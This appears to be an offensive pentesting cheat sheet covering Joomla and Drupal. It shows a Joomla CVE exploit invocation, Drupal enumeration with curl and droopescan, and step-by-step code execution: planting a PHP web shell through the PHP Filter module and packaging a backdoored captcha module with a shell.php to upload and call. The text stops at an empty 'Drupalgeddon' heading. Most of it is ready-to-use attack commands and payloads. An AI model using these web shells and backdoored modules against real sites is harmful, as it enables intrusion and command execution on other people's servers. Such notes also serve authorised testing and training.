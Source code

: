 ````
$ python2.7 joomla_cve.py --url "http://<domain>/administrator/" --username admin --password admin --dir /
````

## Drupal 

Drupal supports three types of users by default:
- Administrator: This user has complete control over the Drupal website.
- Authenticated User: These users can log in to the website and perform operations such as adding and editing articles based on their permissions.
- Anonymous: All website visitors are designated as anonymous. By default, these users are only allowed to read posts.

### Enumeration

````
$ curl -s http://<domain> | grep Drupal
$ curl -s http://<domain>/CHANGELOG.txt | grep -m2 ""
$ droopescan scan drupal -u http://<domain>
````
Another way to identify Drupal CMS is through nodes. Drupal indexes its content using nodes. A node can hold anything such as a blog post, poll, article, etc. The page URIs are usually of the form /node/<nodeid>

### Code Execution

**PHP Filter Module**
````
1 - http://<domain>/#overlay=admin/modules and activate "PHP Filter"
2 - Content --> Add content and create a Basic page
3 - Create a new page and add
<?php
system($_GET['cmd']);
?>
4 - Text format: PHP code
5 - Save
$ curl -s http://<domain>/node/3?cmd=id | grep uid | cut -f4 -d">"

----------------------------------------------------------------------------------------

From version 8 onwards, the PHP Filter module is not installed by default.
$ wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2 - Administration > Reports > Available updates
3 - Click on Browse, select the file from the directory we downloaded it to, and then click Install
4 - Once the module is installed repeat previous process
````

**Uploading a Backdoored Module**
````
$ wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
$ tar xvf captcha-8.x-1.2.tar.gz
$ echo "<?php system($_GET['cmd']); ?>" > shell.php
4) Create .htaccess
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
$ mv shell.php .htaccess captcha
$ tar cvf captcha.tar.gz captcha/
5) Manage > Extend > + Install new module (http://<domain>/admin/modules/install)
$ curl -s http://<domain>/modules/captcha/shell.php?cmd=id
````
**Drupalgeddon**
